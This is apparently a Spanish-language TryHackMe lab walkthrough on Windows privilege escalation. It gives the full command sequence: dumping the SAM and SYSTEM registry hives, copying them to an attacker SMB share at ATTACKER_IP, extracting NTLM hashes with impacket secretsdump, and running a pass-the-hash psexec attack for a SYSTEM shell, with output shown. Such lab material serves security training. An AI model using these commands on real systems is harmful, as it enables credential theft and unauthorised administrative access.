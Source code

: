 Para hacer una copia de seguridad de los hashes SAM y SYSTEM, podemos usar los siguientes comandos:

```shell-session
C:\> reg save hklm\system C:\Users\THMBackup\system.hive
The operation completed successfully.

C:\> reg save hklm\sam C:\Users\THMBackup\sam.hive
The operation completed successfully.
```

Esto creará un par de archivos con el contenido de las colmenas del registro. Ahora podemos copiar estos archivos a nuestra máquina atacante usando SMB o cualquier otro método disponible. Para SMB, podemos usar impacket `smbserver.py`para iniciar un servidor SMB simple con un recurso compartido de red en el directorio actual de nuestro AttackBox:

```shell-session
user@attackerpc$ mkdir share
user@attackerpc$ python3.9 /opt/impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 public share
```

Esto creará un recurso compartido llamado que `public`apunta al `share`directorio, que requiere el nombre de usuario y la contraseña de nuestra sesión actual de Windows. Después de esto, podemos usar el `copy`comando en nuestra máquina Windows para transferir ambos archivos a nuestro AttackBox:

```shell-session
C:\> copy C:\Users\THMBackup\sam.hive \\ATTACKER_IP\public\
C:\> copy C:\Users\THMBackup\system.hive \\ATTACKER_IP\public\
```

Y use impacket para recuperar los hashes de contraseña de los usuarios:

```shell-session
user@attackerpc$ python3.9 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL
Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation

[*] Target system bootKey: 0x36c8d26ec0df8b23ce63bcefa6e2d821
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:13a04cdcf3f7ec41264e568127c5ca94:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

```

Finalmente podemos usar el hash del administrador para realizar un ataque Pass-the-Hash y obtener acceso a la máquina de destino con privilegios de SISTEMA:

```shell-session
user@attackerpc$ python3.9 /opt/impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:13a04cdcf3f7ec41264e568127c5ca94 administrator@MACHINE_IP
Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation

[*] Requesting shares on 10.10.175.90.....
[*] Found writable share ADMIN$
[*] Uploading file nfhtabqO.exe
[*] Opening SVCManager on 10.10.175.90.....
[*] Creating service RoLE on 10.10.175.90.....
[*] Starting service RoLE.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

